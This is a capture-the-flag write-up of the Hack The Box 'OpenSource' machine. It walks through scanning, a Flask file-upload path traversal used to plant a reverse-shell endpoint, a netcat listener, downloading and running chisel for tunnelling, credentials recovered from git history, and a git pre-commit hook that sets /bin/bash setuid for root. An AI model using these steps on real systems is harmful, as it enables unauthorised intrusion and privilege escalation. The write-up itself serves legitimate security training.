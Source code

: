 Hello and welcome to my next write up. This will be on Hackthebox box called opensource. 
Let's jump right into it.

First we will start nmap to see which ports are open. 

```
# nmap -T4 -sC -sV -p- 10.10.11.164        
Starting Nmap 7.91 ( https://nmap.org ) at 2022-09-10 08:33 EDT
Nmap scan report for 10.10.11.164 (10.10.11.164)
Host is up (0.061s latency).
Not shown: 65532 closed ports
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1e:59:05:7c:a9:58:c9:23:90:0f:75:23:82:3d:05:5f (RSA)
|   256 48:a8:53:e7:e0:08:aa:1d:96:86:52:bb:88:56:a0:b7 (ECDSA)
|_  256 02:1f:97:9e:3c:8e:7a:1c:7c:af:9d:5a:25:4b:b8:c8 (ED25519)
80/tcp   open     http    Werkzeug/2.1.2 Python/3.10.3
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.1.2 Python/3.10.3
|     Date: Sat, 10 Sep 2022 12:34:25 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 5316
|     Connection: close
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>upcloud - Upload files for Free!</title>
|     <script src="/static/vendor/jquery/jquery-3.4.1.min.js"></script>
|     <script src="/static/vendor/popper/popper.min.js"></script>
|     <script src="/static/vendor/bootstrap/js/bootstrap.min.js"></script>
|     <script src="/static/js/ie10-viewport-bug-workaround.js"></script>
|     <link rel="stylesheet" href="/static/vendor/bootstrap/css/bootstrap.css"/>
|     <link rel="stylesheet" href=" /static/vendor/bootstrap/css/bootstrap-grid.css"/>
|     <link rel="stylesheet" href=" /static/vendor/bootstrap/css/bootstrap-reboot.css"/>
|     <link rel=
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.1.2 Python/3.10.3
|     Date: Sat, 10 Sep 2022 12:34:25 GMT
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, OPTIONS, GET
|     Content-Length: 0
|     Connection: close
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
|_http-server-header: Werkzeug/2.1.2 Python/3.10.3
|_http-title: upcloud - Upload files for Free!
3000/tcp filtered ppp
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
------snip-------
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 139.85 seconds
```

There are two ports open it is 22 which is ssh and 80 which is http and port 3000 which is filtered. Not much we can do with the ssh as the version doesn't have any known vulnerabilities. So let's visit the web page. 

WEB IMAGE

We see that there is download button we we're gonna download the source for the page. It's running python so we can take a guess that it 
will be flask application. As this is `.git` let's see which branches are there with the command `git branch`. There are two `dev` and 
`public`. We will switch to dev as it is more likely to leak more things because developers could forget to delete something before posting it online.
In flask web apps there is a `views.py` file which is best place to start looking at the code as it
is convenient because we can see the endpoints this app has. There are four 
routes defined for the app. We can see that there is upcloud endpoint with upload file functionality. The only function that is interesting
and not totally basic is `os.path.join` where we look up vulnerabilities for this function or just documentation we'll find out that
if we specify absolute path it will discard everything else and just use that. Also in `configuration.py` there is `DEBUG=True` so we can
visit endpoint `/uploads/whatever` there is debug page which leaks that the `views.py` is in `/app/app/views.py`

DEBUG IMAGE

Now the easiest way to get shell here is to upload our own malicious `views.py` file and create our own endpoint that will give us reverse shell.
We will use python reverse shell from great repo https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python . Just copy some other route and replace its contents with our shell.

CHANGED VIEWS IMAGE

We will need to catch the upload request in burpsuite to change the name of the file that we are uploading.
U can send the request to repeater and send it from there which is good if something failed or you can just send it from the proxy tab.

CHANGED REQUEST BURP IMAGE

We will set up netcat listener and on visiting http://10.10.11.164/rev or whatever name you defined the endpoint as it will give us reverse shell.
If we try to stabilize the shell it gives us error because there is no bash so let's just use `/bin/sh`

```
/app # ^[[1;8Rpython3 -c 'import pty;pty.spawn("/bin/sh")'
python3 -c 'import pty;pty.spawn("/bin/sh")'
/app # ^[[3;8R^Z
zsh: suspended  nc -lvnp 4242
                                                                                                                                                                                                                                             
┌──(root💀kali)-[~]
└─# stty raw -echo; fg                                                                                                                                                                                                             
[1]  + continued  nc -lvnp 4242

/app # 
```
If we use id it tells us that we are root but i didn't think it would be that easy. In `/` directory do `ls -la` and you will
see `.dockerenv` in there which means that we are in docker container. 

```
/ # ls -la
total 72
drwxr-xr-x    1 root     root          4096 Oct 19 19:46 .
drwxr-xr-x    1 root     root          4096 Oct 19 19:46 ..
-rwxr-xr-x    1 root     root             0 Oct 19 19:46 .dockerenv
--------------snip--------------
```

We remember that there is port 3000 which is filtered. Time to use chisel to create tunnel. We will download it from https://github.com/jpillora/chisel and start python server in the directory in which it is with `# python3 -m http.server 8000`. Then use `wget` in `/tmp` directory `/tmp # wget http://10.10.14.187:8000/chisel`. Now we will run it in server mode on our machine `# ./chisel -p 9001 --reverse` and as client on the 
opensource box `/tmp # ./chisel client localhost:8000 R:3000:172.17.0.1:3000` the ip adress we use here is the one from `ifconfig` 
command but ending with `1` because it is used as ip adress for gateway. Don't forget to do `chmod +x chisel` to make it executable.

There is gitea. There is a sign in but we don't have any credentials. But we have the `.git` we can try to look for credentials there.
`git log ` shows 4 commits. With `git show <commit id>` we will go one by one to see changes made in that commit. And in one of them 
there are credentials. 

GIT SHOW IMAGE

With that login and get in. If we look around we will find `.ssh` with id_rsa key. Now let's copy it into our machine and set rights with
`chmod 600 id_rsa` now we can login with ssh as dev01 and get our flag. `sudo -l` gives us nothing and Linpeas won't help us either. 
Let's try to transfer pspy from our machine to the box to see if there isn't something running that we didn't find. 
It shows us cronjob that is running every minute doing backup of dev01 home directory. We can use this to our advantage
and abuse git hooks. In dev01 home directory is `.git`. .sample files will be skipped. Easiest way is to change `/bin/bash`
to set uid so we can keep its root permission. And change the file permissions to be executable.

```
dev01@opensource:~/.git/hooks$ echo -e '#!/bin/sh\n chmod +s /bin/bash' > pre-commit
dev01@opensource:~/.git/hooks$ chmod +x pre-commit
```

```
dev01@opensource:~/.git/hooks$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1113504 Apr 18  2022 /bin/bash
dev01@opensource:~/.git/hooks$ ./bin/bash -p
-bash: ./bin/bash: No such file or directory
dev01@opensource:~/.git/hooks$ /bin/bash -p
bash-4.4# id
uid=1000(dev01) gid=1000(dev01) euid=0(root) egid=0(root) groups=0(root),1000(dev01)
```

After a minute bash becomes setuid and with `/bin/bash -p` we get root shell and can now read the root.txt and our job here 
is finished.

![alt text](https://github.com/vojtechsmola/CTF-write-ups/blob/main/Tryhackme-Write-Ups/THM-Corridor-Write-Up/images/flag.png?raw=true)

Thank you for reading this write up. If you have any suggestions, questions or just want to play CTFs with someone reach me out 
on Twitter or wherever else you can find me.
https://twitter.com/Vojtech1337
